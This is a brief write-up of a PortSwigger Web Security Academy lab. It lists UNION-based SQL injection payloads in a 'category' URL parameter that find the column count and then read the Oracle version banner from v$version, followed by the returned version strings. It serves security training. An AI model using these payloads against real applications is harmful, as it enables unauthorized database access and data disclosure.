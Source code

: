 # Lab

https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

## Payload

```sql
/filter?category='+UNION+SELECT+NULL,NULL FROM dual--
```

```sql
/filter?category='+UNION+SELECT+'abc','def' FROM dual--
```

```sql
/filter?category='+UNION+SELECT+BANNER, NULL FROM v$version--
```

### Result

```
CORE 11.2.0.2.0 Production
NLSRTL Version 11.2.0.2.0 - Production
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
PL/SQL Release 11.2.0.2.0 - Production
TNS for Linux: Version 11.2.0.2.0 - Production
```